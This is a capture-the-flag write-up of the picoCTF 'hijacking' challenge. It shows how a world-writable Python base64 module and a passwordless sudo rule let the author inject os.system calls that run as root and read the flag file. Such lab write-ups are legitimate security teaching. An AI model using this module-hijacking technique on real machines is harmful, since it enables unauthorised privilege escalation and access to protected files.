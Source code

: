 # hijacking #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#python #privilegeescalation`
 
## Description ##
 
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
## Approach ##
 
Listing the contents of the home folder on the challenge instance : 

    drwxr-xr-x 1 picoctf picoctf   20 Mar 27 06:35 .
    drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
    -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
    drwx------ 2 picoctf picoctf   34 Mar 27 06:35 .cache
    -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
    -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

The hidden `.server.py` python script is python file of interest referred to. Note this file is owned by `root` and permissions do not allow for editing. There is no typical `flag.txt` file or similar in sight.

The contents of the `.server.py` python script is as below, with nothing overly nefarious looking within :

    import base64
    import os
    import socket
    ip = 'picoctf.org'
    response = os.system("ping -c 1 " + ip)
    #saving ping details to a variable
    host_info = socket.gethostbyaddr(ip) 
    #getting IP from a domaine
    host_info_to_str = str(host_info[2])
    host_info = base64.b64encode(host_info_to_str.encode('ascii'))
    print("Hello, this is a part of information gathering",'Host: ', host_info) 

 Executing the python script yields :

    picoctf@challenge:~$ python3 .server.py
    sh: 1: ping: not found
    Traceback (most recent call last):
      File ".server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname

Initially I spent a long time trying to construct a fake `ping` command to take place of the missing binary, but without much success so I started looking more closely at the python modules imported and the potential for a hijacking.

First step was to find the location of the modules in use :

    picoctf@challenge:~$ python3
    Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import sys
    >>> print(sys.path)
    ['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
    >>> quit()

Looking at the permissions of the `base64` module within `/usr/lib/python3.8` we have full read-write-execute access.

    picoctf@challenge:~$ ls -al /usr/lib/python3.8
    -rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

So we could modify the imported `base64` module with our own code, but what held me up next was attempting to facilitate the execution of the `.server.py` script to the `base64.b64encode()` function, where I would put all my code. I looked into attempting to adding hosts to try and resolve the host information and allow execution to continue beyond the `socket.gethostbyadd(ip)` call.

But then I realised that all code within the imported module is executed upon import, I didn't have to wait for the use of `base64.b64encode()` function, I could add my code to the top of the `base64` module and it would get executed on import.

This left the remaining piece of the puzzle, how to escalate privileges to be able to run as `root`. So I checked what commands could be run via `sudo` :

    picoctf@challenge:~$ sudo -l
    Matching Defaults entries for picoctf on challenge:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User picoctf may run the following commands on challenge:
      (ALL) /usr/bin/vi
      (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Notice our `.server.py` script can be run as via sudo without password.

 
.. prototyping and exploration, confirming privilege escalation and finding flag..
 
## Solution ##
 
The solution below includes my prototyping, proof of concept and exploration to confirm privelige escalation and to assist in finding the flag, hence is not a "minimal" solution, but is presented as was used during the event.

The following lines were added to the top of `/lib/python3.8/base64.py` :

    import os
    print('Hello World!')
    os.system('whoami')
    os.system('ls -al /root > /home/picoctf/r.txt')
    os.system('cat /root/.flag.txt')

Now running the `.server.py` script with the modified `base64` import module yields the following output (note: actual flag value has been redacted) :

    $ sudo python3 /home/picoctf/.server.py
    Hello World!
    root
    picoCTF{.......<redacted>...............}
    sh: 1: ping: not found
    Traceback (most recent call last):
      File "/home/picoctf/.server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname